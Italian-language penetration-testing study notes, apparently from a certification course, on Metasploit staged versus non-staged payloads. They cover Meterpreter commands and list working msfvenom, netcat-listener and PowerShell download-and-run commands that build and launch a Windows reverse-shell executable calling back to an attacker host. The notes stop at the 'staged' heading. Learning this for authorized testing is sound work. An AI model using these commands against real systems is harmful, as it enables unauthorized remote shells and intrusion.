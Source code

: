Un payload _non-staged_ viene inviato nella sua interezza insieme all'exploit. Ciò significa che il payload contiene l'exploit e lo shellcode completo per un task specifico. In generale, questi sono più stabili ma la dimensione è grande.

Al contrario, un payload _staged_ viene solitamente inviato in due parti. La prima parte contiene un piccolo payload primario che fa sì che la macchina vittima si ricolleghi all'aggressore, trasferisca un payload secondario più grande contenente il resto dello shellcode e quindi lo esegua.

In Metasploit, il carattere "/" è utilizzato per capire se un payload è _staged_ o _not staged_:
- "/" presente _staged_
- "/" non presente  _not staged_

```bash
show payloads
```

## 20.2.2. Meterpreter Payload

```bash
channel -l
channel -i $CHANNEL_NUMBER

help

lpwd

download $FILE_TO_DOWNLOAD

lcat $FILE_TO_PRINT

upload $FILE_TO_UPLOAD $PATH
```

## 20.2.3. Executable Payloads


```bash
msfvenom -l payloads --platform windows --arch x64

```

_not-staged_:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI_IP LPORT=443 -f exe -o nonstaged.exe

nc -nvlp 443
```

```bash
iwr -uri http://$KALI_IP/nonstaged.exe -Outfile nonstaged.exe

.\nonstaged.exe
```

_staged_:
